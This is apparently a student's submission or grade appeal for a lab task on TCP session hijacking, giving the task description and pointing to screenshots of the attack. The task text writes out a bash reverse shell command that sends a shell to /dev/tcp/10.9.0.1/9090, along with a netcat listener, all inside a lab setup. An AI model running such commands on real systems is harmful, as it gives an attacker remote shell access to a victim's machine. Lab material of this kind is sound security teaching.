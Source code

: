 ## Question

Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking
30 Points
Grading comment:

When attackers are able to inject a command to the victim’s machine using TCP session hijacking, they are not interested in running one simple command on the victim machine; they are interested in running many commands. Obviously, running these commands all through TCP session hijacking is inconvenient. What attackers want to achieve is to use the attack to set up a back door, so they can use this back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the victim machine to give the attack the shell access to the victim machine. Reverse shell is a shell process running on a remote machine, connecting back to the attacker’s machine. This gives an attacker a convenient way to access a remote machine once it has been compromised.

In the following, we will show how we can set up a reverse shell and how we can directly run a command on the victim machine (i.e. the server machine). In the TCP session hijacking attack, attackers cannot directly run a command on the victim machine, so their jobs is to run a reverse-shell command through the session hijacking attack. In this task, students need to demonstrate that they can achieve this goal. 

To have a bash shell on a remote machine and connect back to the attacker’s machine, the attacker needs a process waiting for some connection on a given port. In this example, we will use netcat. This program allows us to specify a port number and can listen for a connection on that port. In the following demo, we show two windows, each one is from a different machine. The top window is the attack machine 10.9.0.1, which runs netcat (nc for short), listening on port 9090. The bottom window is the victim machine 10.9.0.5, and we type the reverse shell command. As soon as the reverse shell gets executed, the top window indicates that we get a shell. This is a reverse shell, i.e., it runs on 10.9.0.5

We provide a brief description on the reverse shell command in the following.

    • "/bin/bash -i": i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt)

    "> /dev/tcp/10.9.0.1/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to 10.9.0.1’s port 9090. The output stdout is represented by file descriptor number 1.

    "0<&1": File descriptor 0 represents the standard input (stdin). This causes the stdin for the shell to be obtained from the tcp connection.
    "2>&1": File descriptor 2 represents standard error stderr. This causes the error output to be redirected to the tcp connection.

In summary, "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" starts a bash shell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same tcp connection. 

In the demo shown above, when the bash shell command is executed on 10.9.0.5, it connects back to the netcat process started on 10.9.0.1. This is confirmed via the "Connection received on 10.9.0.5" message displayed by netcat.

The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the telnet server in our setup, but in this task, you do not have such an access. Your task is to launch a TCP session hijacking attack on an existing telnet session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server.

- Please show your code (hardcoded values)
- show the attack in progress
- Wireshark frame showing the SEQ/ACK number that you copied from
- Wireshark frame showing the inject code, and showing the SEQ and ACK number
- Telnet connection failing
- netcat output
- File created on the victim's host using netcat (or some other attack)

## Argument

The right panel of these screenshots displays the Python hijacking script.
The code screenshot I submitted:
![[Screenshot 2025-06-04 at 1.48.49 PM.png]]

From the same screenshot we can see what docker containers we have, namely:
![[Screenshot 2025-06-04 at 1.49.28 PM.png | 400]]

Even though it is hard to follow, the collective set of screenshots illustrates the stages of the attack.

Tis demonstrates the initial setup: 
![[Screenshot 2025-06-04 at 2.48.01 PM.png]]
where, the netcat listener (netcat -nlvp 9090) is started on the attacker machine (10.9.0.1) in the bottom-left terminal, and a Telnet session from seed@VM to 10.9.0.6 is active in the middle-left terminal.
![[Screenshot 2025-06-04 at 2.44.41 PM.png]]

Then we see the outcome of the hijack script:
![[Screenshot 2025-06-04 at 2.52.43 PM 1.png]]

And as we saw before, 51 is our victim and we did get a reverse shell onto them from our seed attacker!!

Finally, in our Wireshark, we see the successful establishment of the reverse shell and that the packet was successfully crafted and sent with the correct SEQ/ACK numbers.
![[Screenshot_2025-03-10_at_8.46.15_PM.jpg]]